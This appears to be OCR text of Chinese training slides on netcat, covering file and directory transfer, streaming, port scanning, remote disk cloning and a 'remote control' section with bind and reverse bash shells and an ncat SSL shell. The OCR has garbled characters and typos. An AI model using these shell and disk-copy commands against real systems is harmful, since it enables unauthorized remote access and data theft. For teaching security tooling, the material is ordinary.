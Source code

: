 
#### NC—— 传输⽂文件 / 目录

##### • 传输⽂文件

- A：nc -lp 333 > 1.mp
- B：nc -nv 1.1.1.1 333 < 1.mp4 –q 1
- 或
- A：nc -q 1 -lp 333 < a.mp
- B： nc -nv 1.1.1.1 333 > 2.mp
- 传输目录
- A：tar -cvf - music/ | nc -lp 333 –q 1
- B：nc -nv 1.1.1.1 333 | tar -xvf –
- 加密传⽂文件
- A：nc -lp 333 | mcrypt --flush -Fbqd -a rijndael-256 -m ecb > 1.mp
- B： mcrypt --flush -Fbq -a rijndael-256 -m ecb < a.mp4 | nc -nv 1.1.1.1 333 -q 1


#### NC—— 流媒体服务

- A： cat 1.mp4 | nc -lp 333
- B： 1.1.1.1 333 | mplayer -vo x11 -cache 3000 -


#### NC—— 端口扫描

- nc -nvz 1.1.1.1 1-65535
- nc –vnzu 1.1.1.1 1-1024


#### NC—— 远程克隆硬盘

- A： nc -lp 333 | dd of=/dev/sda
- B： dd if=/dev/sda | nc -nv 1.1.1.1 333 –q 1
- 远程电⼦子取证，可以将⺫⽬目标服务器硬盘远程复制，或者内存。


#### NC—— 远程控制

##### • 正向：

- A：nc -lp 333 -c bash
- B：nc 1.1.1.1 333
- 反向：
- A：nc -lp 333
- B：nc 1.1.1.1 333 -c bash
- 注：Windows⽤用户把bash改成cmd；


#### NC——NCAT

- Nc缺乏加密和⾝身份验证的能⼒力
- Ncat包含于nmap⼯工具包中
- A：ncat ncat -c bash --allow 192.168.20.14 -vnl 333 --ssl
- B：ncat -nv 1.1.1.1 333 --ssl


#### WIRESHARK

